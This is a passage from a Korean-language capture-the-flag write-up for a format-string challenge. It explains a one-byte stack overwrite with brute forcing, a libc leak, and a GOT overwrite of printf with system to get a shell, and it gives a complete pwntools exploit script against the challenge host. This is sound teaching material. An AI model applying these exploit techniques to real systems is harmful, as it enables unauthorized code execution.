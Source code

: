 ```bash
0x7fffffffc810: 0x00007fffffffc8b0      0x00007ffff7dfac88
```

`$rsp + 0x10`에 스택 관련 주소가 있다. 여길 1바이트 덮어서 v5를 가르키게 하면 v5를 변조할 수 있다. 1바이트를 `\x3e`로 덮었을 때 가능한 경우가 있음을 확인했다. 스택에는 ASLR이 걸려있어서 항상 base 주소가 달라지기 때문에 1/16 브루트포싱이 필요하다.  
그리고 문제에서 도커파일을 주지 않았다. 스택에 있는 값은 구축된 환경에 따라 다를 수 있기 때문에 로컬에서 분석할 때 스택에 값이 있다고 리모트 환경에 반드시 있지 않아 꽤나 도박성 익스이다. 하지만 운이 좋게 그대로 스택 관련된 값이 있었다.  
이렇게 v5를 변조해 `FSB`를 무한히 실행할 수 있다. 그 후 %p를 통해 libc\_base를 구하고, printf의 got을 system 주소로 바꾸고 /bin/sh를 입력하면 쉘을 딸 수 있다.

## dec.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'
context.bits = 64

HOST = "227823158c9de5e8d4b2cffaf1bc60fc.chal.ctf.ae"
l = ELF('./libc.so.6')

while True:
    #p = process('./yet_another_fsb')
    p = remote(HOST, 443, ssl=True, sni=HOST)
    e = ELF('./yet_another_fsb')

    payload = b'%c%8$hhn'.ljust(0x10, b'\x00') + b'\x3e'
    p.send(payload)
    msg = p.recvn(1)
    if msg == b'0': 
        break
    p.close()

#gdb.attach(p,'b *{}'.format(0x00000000004011ef))
payload = b'%3$p\n\x00'

p.send(payload)
l.address = int(p.recvline()[:-1], 16) - (0x7ff5229fd981 - 0x7ff5228f5000)
print(hex(l.address))

payload = fmtstr_payload(6, {e.got['printf']: l.sym['system']})
p.send(payload)
p.send(b'/bin/sh\x00')
p.interactive()
```

---

# Recover Your Vision
